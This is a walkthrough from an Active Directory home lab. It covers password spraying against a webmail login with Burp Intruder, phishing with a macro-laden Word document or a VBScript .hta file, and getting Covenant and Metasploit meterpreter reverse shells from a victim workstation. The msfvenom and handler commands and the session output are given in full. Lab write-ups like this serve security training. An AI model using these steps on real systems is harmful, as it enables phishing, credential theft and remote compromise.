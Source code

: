 # 1. Exploring Website Information and Generating Wordlist:

- During the process of enumeration, we discovered the presence of user information.

- We compiled a list of usernames and saved them in a file for further analysis and use.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/a7f02083-5420-475e-a8c4-6027e43eb40a)

-  Use the ["Namemash"]([https://github.com/singhx-hub/Usernamify](https://github.com/thesinghsec/Namemash)) script to generate usernames by combining the first and last names from our user list and save the output in a text file

```python
└─$ ./namemash.py web-users > userlist
jonathontaylor
taylorjonathon
jonathon.taylor
taylor.jonathon
taylorj
----snip------
tjonathon
j.taylor
t.jonathon
jonathon
```

> ## Machines required: WorkStation-01, UbuntuMail, and Kali machine.

- Navigate to the mail server in the browser using the UbuntuMail IP.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/e559bee0-0178-41e2-936f-b955c1fe3980)

- Open Burp Suite and intercept the request using a proxy

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/997b35ea-80be-42bb-963b-2e9286afe884)

- In Burp Suite's Intruder tool, initiate the attack by selecting the request and specifying the user and pass arguments for fuzzing. Add the generated username list to the user section and include common passwords like "summer2021!" and "fall2020!" as payload options. Configure the attack method as "Cluster Bomb" and launch the attack to test different combinations.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/7ca45570-25e8-4edd-9065-e5d325ec801d)

- Accomplished the task by successfully identifying the username "a.tarolli" along with the corresponding password "Summer2021!"
- Log in to the mail server using the a.tarolli creds.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/b7de7ded-114c-49df-abe6-10bfd5874ba7)

## Phishing Email

- Setup listener on Covenant and generate a PowerShell launcher. 
- Host a file named rev.ps1 and copy the highlighted encoded luncher.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/16328e6b-d1d9-49d5-adba-e2bfc14ca093)

As we don't have MS Word installed on our system so we will use [Nishang's Out-File.ps1 script](https://github.com/samratashok/nishang/blob/master/Client/Out-Word.ps1) to create a Word document and autorun macro with provided payload.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/d093c16b-ce98-4247-a214-aba4c50549cb)

> Setup smbserver using cmd `smbserver.py Share . -smb2support`. To make the file build successfully.

Host the file through Covenant Listener to transfer it.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/e0c7a196-f493-4a1e-af32-a8fe1d9d1253)

Now, we will send the email with the phishing file linked on the link. Click send.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/d9e34e38-f3a1-46bb-bdbf-4296873d9b46)

When on the Workstation-01 we will download the file and open it with enable editing. There is nothing happening on the Workstation-01, but on our Kali machine Covenant, we have an active Grunt activated which means now we shell.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/2699574a-439c-4915-8985-660e1bdf00b5)

> ## Alternate

If in case we don't have MS Word installed in our system we can utilize the `.hta` file to get a shell on Covenant. For this, we need the code:

```vb
<script language="VBScript">

  Function DoStuff()

               Dim wsh

               Set wsh = CreateObject("Wscript.Shell")

                wsh.run "<powershell command>"

               Set wsh = Nothing

  End Function

  DoStuff

  self.close

</script>
```

Now, follow the same steps as above, edit the link in the phishing email and setup listener with the host `.hta` file

When the user opens the file, we will find the grunts active.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/5b9a1ce5-9ac3-4297-8fb2-215c06b18e1f)

## We can achieve the same using METASPLOIT:

First, we must create a `.hta` file using `msfvenom`.

```bash
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.186 LPORT=8080 -f hta-psh -o file.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of hta-psh file: 7912 bytes
Saved as: file.hta
```
Now, open Metasploit and setup the listener using cmds:

```bash
msf6 > use exploit/multi/handler
(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
(multi/handler) > set lport 8888
(multi/handler) > set lhost eth0
(multi/handler) > run
```

Run the generated `.hta` file to the victim's workstation-01.
After running the file we get meterpreter shell back to our machine.

```bash
[*] Sending stage (200774 bytes) to 192.xxx.xxx.xxx.
[*] Meterpreter session 1 opened (192.xx.xxx.xxx:8080 -> 192.xxx.xxx.xxx.:50324) at 2023-07-23 19:25:35 +0100
sessions
meterpreter > getuid
Server username: mayorsec\s.chisholm
meterpreter > 
```
